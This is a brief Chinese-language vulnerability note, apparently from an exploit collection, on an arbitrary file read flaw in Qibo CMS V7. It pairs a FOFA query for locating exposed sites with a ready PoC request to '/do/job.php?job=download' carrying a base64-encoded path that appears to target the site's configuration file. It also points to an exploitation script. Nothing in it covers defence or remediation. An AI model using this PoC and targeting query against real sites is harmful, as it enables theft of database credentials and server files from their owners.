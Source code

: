 # 齐博CMS V7任意文件读取漏洞

## 漏洞影响

```
齐博cms V7
```

## FOFA

```
app="齐博cms"
```

## Poc

```
/do/job.php?job=download&url=ZGF0YS9jb25maWcucGg8
```

ZGF0YS9jb25maWcucGg8  为base64编码后的文件名

综合验证和利用脚本见 Qibo_v7.py
